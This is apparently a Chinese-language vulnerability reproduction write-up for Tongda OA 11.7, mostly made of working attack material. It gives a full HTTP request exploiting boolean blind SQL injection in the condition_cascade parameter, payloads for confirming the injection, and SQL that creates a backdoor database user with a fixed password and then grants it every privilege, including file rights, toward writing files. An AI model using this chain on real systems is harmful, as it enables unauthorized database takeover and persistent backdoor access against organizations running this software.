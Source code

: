 通达oa 11.7

利用条件:需要账号登录 



## 漏洞复现

### condition_cascade参数存在布尔盲注

在人员管理面板有一个SQL注入

![image-20210409191824931](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210409191824931.png)

POC：

```
GET /general/hr/manage/query/delete_cascade.php?condition_cascade=select if((substr(user(),1,1)='r'),1,power(9999,99)) HTTP/1.1
Host: 192.168.77.137
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
X-Requested-With: XMLHttpRequest
Referer: http://192.168.77.137/general/index.php?isIE=0&modify_pwd=0
Cookie: PHPSESSID=ebpjtm5tqh5tvida5keba73fr0; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c71fa06d
DNT: 1
Connection: close
```

经过测试，过滤了一些函数(sleep、报错的函数等等)，各种注释，使用payload：

```
select if((1=1),1,power(9999,99))、select if((1=2),1,power(9999,99))
```

判断注入点 #当字符相等时，不报错，错误时报错

![image-20210409193004810](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210409193004810.png)



通过添加用户at666，密码为abcABC@123

```
grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION
```

![image-20210409194021160](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210409194021160.png)



使用工具连接数据库，刚刚添加的用户无法直接通过日志慢查询写入文件，需要给创建的账户添加权限

```
UPDATE `mysql`.`user` SET `Password` = '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('at666' AS Binary(5));
```
